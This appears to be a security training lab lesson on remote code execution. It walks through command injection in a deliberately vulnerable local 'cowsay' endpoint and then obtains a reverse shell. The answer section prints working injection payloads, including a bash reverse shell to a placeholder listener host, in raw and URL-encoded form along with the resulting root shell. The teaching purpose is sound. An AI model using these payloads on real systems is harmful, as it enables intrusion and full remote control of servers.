 # RCE - Remote Code Execution & Obtaining a Reverse Shell

A remote code injection (RCE) vulnerability is the most deadly type of vulnerability since it gives an attacker command and control in some regard or another of a host server.

When you find an RCE, you can use it to execute commands as the user that owns the process you have compromised. For example, if you run a tomcat webserver as the user `tomcat` and that process is exploited by an RCE, you can do anything that `tomcat` user can do. This is the reason it is always recommended to run webservers as non-privileged users that don't have access to more than they need.

Once you have the ability to execute arbitrary commands on a host, you can do lots of nasty things such as listing the contents of sensitive files, updating HTML code and defacing websites, etc. However, to embed yourself further in the system, you'll want to obtain an actual shell on the host you've compromised. This allows you execute multiple commands on the host just like if you had a remote SSH or Telnet session on the host.

The way to do this is to establish a reverse shell. The reason it's called reverse is that instead of connecting your session to the victim, you setup a listener on a remote box that you own, and bind to that from the victim host. The reason should be fairly self-explanitory, that setting up a listener on a box you don't own requires elevated privilege and also most hosts block unused ports via firewall rules. However, most hosts actually need to gain access to the web to download packages, etc so egress is typically allowed by firewalls, especially on ports 80 and 443 (HTTP and HTTPS respectively).

The details of how these reverse shells include a bit of understanding of file redirection in unix or use of socket-level programming in different scripting languages, so I'll leave this link here for you to read through. For this exercise, we'll just use copy/paste to help us out. https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

![](assets/reverse_shell.png)

# Lab

We have a vulnerable endpoint that uses a Linux command line utility. Let's try to execute this fun little endpoint that executes the `cowsay` program on Linux normally:

```
$ curl 'http://localhost:8080/cowsay?input=I+Love+Linux!'
 _______________
< I Love Linux! >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

Try to exploit this command using what we've learned so far from the SQL injection exercise about escaping

<details>
  <summary>Answer</summary>

  This executes the `cowsay` program on our host linux box, but as you can see, it allows user input. This is a sign that it might have a RCE type vulnerability if input is not validated. Let's try with a few inputs to see what we have control over.

  Let's assume that the executable looks something like `cowsay 'input'`. There wouldn't have to be a single quote there, but it's a reasonable initial assumption. We'll have to escape using the same method we used for the SQL injection. So let's see what we can execute the `ls` command to list the directory contents.

  The way you'd escape would be something like this where the `';` gets you out of the expected command and then you execute your own command. Then the `#` comment character ignores the rest of the command just like in the SQL injection:

  ```
  cowsay 'input'; ls #
  ```
  But there's some characters that probably won't work in a URL parameter. This is where we'll try to encode our command string with a URL encoder. We'll use https://www.urlencoder.org/ for this. If you copy the above line and encode it you can add it to the URL parameter like so and then execute the curl request to see what you get:

  ```
  $ curl "http://localhost:8080/cowsay?input=input%27%3B%20ls%20%23"
   _______
  < input >
   -------
          \   ^__^
           \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  Dockerfile
  README.md
  bin
  boot
  dev
  docker-compose.yml
  docker-java-home
  etc
  exercises
  home
  internal_site
  ...
  ```

  _insert evil laugh here_

  So now we've confirmed our suspicions that we have the ability to execute arbitrary commands from this endpoint. Now we can solidify our hold on the box using a Reverse Shell. First we'll need to actually create our listener using `Terraform`. Go ahead and [download Terraform](https://www.terraform.io/downloads.html) and navigate to the [`reverse_shell`](../reverse_shell/README.md) directory in this project and follow the instructions to spin up your listener on port 443.

  ```
  thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #
  ```

  This gets parsed as:
  ```
  /usr/games/cowsay 'thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #'
  ```

  Now let's get the IP from our listener, URL encode our payload and execute this against the web server.

  ```
  # Get the IP from the AWS host you just created
  export LISTENER_IP=$(aws --region us-west-2 ec2 describe-instances --filters  "Name=tag:Name,Values=CyberlensReverseShellReceiver" | jq -r '.Reservations[0].Instances[0]|.PublicIpAddress')

  # Use the URL encoded payload from above to execute a reverse shell.
  curl "http://localhost:8080/cowsay?input=thing%27%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F${LISTENER_IP}%2F443%200%3E%261%20%23"
  ```

  If you look back at your terminal running the listener, you should now see a prompt that looks something like:

  ```
  [ec2-user@ip-10-42-0-83 ~]$ sudo nc -l -p 443
  bash: cannot set terminal process group (1): Inappropriate ioctl for device
  bash: no job control in this shell
  root@6e99769a0f82:/#
  ```

  Congratulations, you now have a _mostly_ functioning bash shell into the compromised web server. At this point you can do lots of nasty things such as listing environment variables with `env` or downloading new packages because, as your prompt tells you, you now have root control.

  Now that you have a remote shell try finding the secret value in the root directory!

  **Followup question:** How would we validate the url that is being passed into this function?

</details>
